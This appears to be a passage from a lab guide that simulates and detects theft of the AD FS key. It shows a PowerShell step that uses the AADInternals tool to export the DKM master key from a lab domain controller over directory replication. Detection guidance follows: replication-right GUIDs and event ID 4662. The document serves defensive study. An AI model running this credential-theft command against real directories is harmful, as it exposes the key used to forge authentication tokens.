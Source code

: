 6. Export the AD FS DKM master key value via directory replication services.

```PowerShell
$ObjectGuid = '9736f74f-fd37-4b02-80e8-8120a72ad6c2' 
$DC = 'DC01.simulandlabs.com' 
$cred = Get-Credential 
$Key = Export-AADIntADFSEncryptionKey -Server $DC -Credentials $cred -ObjectGuid $ObjectGuid 
[System.BitConverter]::ToString([byte[]]$key)
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_25_remote_adfs_encryption_key.png)

## Detect the use of Directory Replication Services to Retrieve AD Contact Object

### Azure Sentinel Detection Rules

**Non-DC Active Directory Replication**

The following access rights/permissions are needed for the replication request according to the domain functional level:

| Control access right symbol    | Identifying GUID used in ACE |
| ------------------------------ | ---------------------------- |
| DS-Replication-Get-Changes     | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 |
| DS-Replication-Get-Changes-All | 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 |
| DS-Replication-Get-Changes-In-Filtered-Set | 89e95b76-444d-4c62-991a-0facbeda640c |

We can see those GUID values in the `Properties` values of Windows Security events with ID 4662.
